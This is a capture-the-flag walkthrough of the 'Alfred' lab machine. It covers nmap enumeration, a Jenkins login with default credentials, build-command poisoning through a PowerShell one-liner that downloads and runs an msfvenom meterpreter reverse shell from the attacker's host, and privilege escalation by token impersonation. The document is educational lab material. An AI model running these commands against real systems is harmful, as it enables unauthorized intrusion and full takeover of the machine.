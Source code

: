 
# Alfred

*note: For this walkthrough, $TARGET is a bash variable holding the IP address of the target machine.*

## Enumeration

The first step to determining how to exploit the target is to enumerate it.  To begin, we will run an nmap scan using the following command:

```bash
nmap -A -Pn -p- -oN nmap/initial $TARGET
```

Output:

```bash
PORT STATE SERVICE VERSION

80/tcp open http Microsoft IIS httpd 7.5

| http-methods:

|_ Potentially risky methods: TRACE

|_http-server-header: Microsoft-IIS/7.5

|_http-title: Site doesn't have a title (text/html).

3389/tcp open ms-wbt-server?

| ssl-cert: Subject: commonName=alfred

| Not valid before: 2023-05-19T19:14:20

|_Not valid after: 2023-11-18T19:14:20

|_ssl-date: 2023-05-20T21:01:58+00:00; -1s from scanner time.

8080/tcp open http Jetty 9.4.z-SNAPSHOT

| http-robots.txt: 1 disallowed entry

|_/

|_http-server-header: Jetty(9.4.z-SNAPSHOT)

|_http-title: Site doesn't have a title (text/html;charset=utf-8).

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port

Aggressive OS guesses: Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows 8.1 R1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 or 2008 Beta 3 (89%)

No exact OS matches for host (test conditions non-ideal).

Network Distance: 4 hops

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Right away, we can see that three ports are open: `80`, `3389`, and `8080`.

### Webpage

Navigating to port 80, we see a "RIP Bruce Wayne" page, and nothing interesting in the HTML source. We can note two things on the page: 1) Bruce Wayne (possible system user) and 2) alfred@wayneenterprises.com (useful in future?).

![web1](../media/pictures/alfred_web1.jpg)

Gobuster and Nikto do not come up with anything fruitful either, so it appears as if port 80 is a dead end.

Gobuster:

```bash
gobuster dir -u http://$TARGET -w raft-large-words-lowercase.txt
```

Nikto:

```bash
nikto -h http://$TARGET -output nikto/http_scan.txt
```

### Jenkins

Since port 80 did not come up with anything particularly useful, we can move onto port 8080. Navigating to `http://$TARGET:8080` in a web browser displays a Jenkins login page. 

![jenkins1](../media/pictures/alfred_jenkins1.jpg)

As always, we will try default credentials first. The most common default credentials are `admin:admin` and when we try them, we are redirected to a dashboard.

![jenkins2](../media/pictures/alfred_jenkins2.jpg)

There is one project (cleverly named "project") we are allowed to interact with in this Jenkins dashboard.  

![jenkins3](../media/pictures/alfred_jenkins3.jpg)

Since we can "Configure" the project, we can set "Build Commands". Manipulating the build commands will allow us a foothold on the target machine. 

![jenkins4](../media/pictures/alfred_jenkins4.jpg)

Currently, the `whoami` command is being executed upon building the project, but we can make this project pull down and execute a meterpreter payload, giving us access to the machine. 

To create the meterpreter payload, we can use the following command (replacing `<MYIP>` with your IP address and `<MYPORT>` with the port you want the shell to communicate with your computer on):

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=<MYIP> LPORT=<MYPORT> -o rev.exe --platform windows -a x64
```

After the payload has been generated, we will need to spin up a simple file server so the target can reach out and pull down the payload. We can do this with Python3 using the command:

```bash
python3 -m http.server <SRVPORT>
```

*note: make sure `<SRVPORT>` and `<MYPORT>` are different.*

After that, we need to open `msfconsole` in a different terminal window and run the following commands:

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <MYIP>
set lport <MYPORT>
run
```

Now that the payload and listener are all staged an awaiting execution, we can poison the build.  We are going to have the target execute a powershell command to pull down our payload and execute it. We can replace `whoami` with the following:

```bash
powershell iex (New-Object Net.WebClient).DownloadFile('http://<MYIP>:<MYPORT>/revshell.exe','revshell.exe');
revshell.exe;
```

The command above instructs powershell to reach out to our C2 server and pull down the `revshell.exe` file we generated using `msfvenom` and save it to `revshell.exe` in the local directory (this name and location can be chaned to any place the service account has write access to, `C:\Public` is gnerally a safe target on Windows). The second line instructs the target to execute the reverse shell file, opening a meterpreter session with our machine. After we hit save and select "Build Now", the payload should be downloaded and the meterpreter session opened.

Once we have a foothold via meterpreter session, we can navigate to `C:\Users\bruce\Desktop` and `cat user.txt` to get the first flag.

## PrivEsc

Now that we have a foothold on the target as `bruce`, we can begin to elevate our privileges. First, lets take a look at the Windows privileges we currently have using `getprivs` in meterpreter.  There are two main privileges that stick out: `SeDebugPrivilege` and `SeImpersonatePrivilege`. 

![privesc1](../media/pictures/alfred_privesc1.jpg)

Using the `incognito` module, we can take advantage of the impersonate privilege.  To use the module, enter `load incognito` into the meterpreter session and hit enter.  After the module has been loaded, we can see what users or groups we can impersonate using `list_tokens -u` and `list_tokens -g`. After running `list_tokens -g` we see that we can impersonate `BUILTIN\Administrators`.  Now, we can run `imersonate_token "BUILTIN\Administrators"` and eleveate our privileges to a local admin. 

![privesc2](../media/pictures/alfred_privesc2.jpg)

We can confirm we have `NT AUTHORITY\SYSTEM` privileges by migrating to a process that is running as `NT AUTHORITY\SYSTEM`.  A stable process to migrate to is `lsass.exe`. To get the PID to migrate to, enter `ps lsass` and hit enter.  We can then migrate to it using `migrate <PID>`.

![privesc3](../media/pictures/alfred_privesc3.jpg)

Now that we have confirmed our escalation, the only thing left to do is grab the root flag from `C:\Windows\System32\config`. 


## Automated Foothold

The process of logging in, poisoning the build, and uploading a payload has been automated in [this Golang program](exploit.go).  The only thing the user needs to do is generate a payload (using msfvenom) for the target to pull down and setup a meterpreter listener. The program will reach out to the target, login, create a new authenticated session, poison the build command with the powershell script and kick off the build, giving the attacker a foothold on the target without ever having to interact with it through the web-browser.